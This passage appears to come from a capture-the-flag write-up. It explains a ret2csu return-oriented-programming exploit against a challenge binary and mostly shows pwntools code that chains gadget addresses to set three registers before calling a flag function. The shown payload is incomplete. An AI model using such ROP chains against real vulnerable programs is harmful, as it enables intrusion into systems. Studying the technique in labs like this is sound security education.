 `r12` to set address to reference `_fini` in `&_DYNAMIC`

`r15` to move our 3rd argument into `rdx`.

We will need to setup these registers first, before we fulfil the requirements.

### Exploit

Let's set all the addresses we need first:

```python
from pwn import *

# p = remote("SERVER", PORT)
p = process("./chall")

# Find all the gadgets we need first

# 1st argument
pop_rdi = p64(0x4008c3) # pop rdi ; ret
 
# 2nd argument
pop_rsi = p64(0x4008c1) # pop rsi ; pop r15 ; ret

# 3rd argument 
csu1 = p64(0x4008ba)
_fini = p64(0x600e48)
csu2 = p64(0x4008a0)

# flag() function
win = p64(0x400717)
```

Now we need to set up the register values.

```python
# csu1
payload += csu1             # addr of pop rbx in csu
payload += p64(0)           # pop rbx
payload += p64(1)           # pop rbp (set to 1)
payload += _fini            # pop r12 (set to _fini)
payload += p64(0)           # pop r13
payload += p64(0)           # pop r14
payload += p64(0x56785678)  # pop r15 (set to 3rd argument)
```

Now we can run the earlier set of instructions in csu.

```python
payload += csu2
```

Since we managed to avoid te `jne` jump, it continues down to same set of instructions in `csu1`. We can just pad all of them.

```python
payload += p64(0)           # add rsp,0x8 
payload += p64(0)           # pop rbx
payload += p64(0)           # pop rbp
payload += p64(0)           # pop r12
payload += p64(0)           # pop r13
payload += p64(0)           # pop r14
payload += p64(0)           # pop r15
```
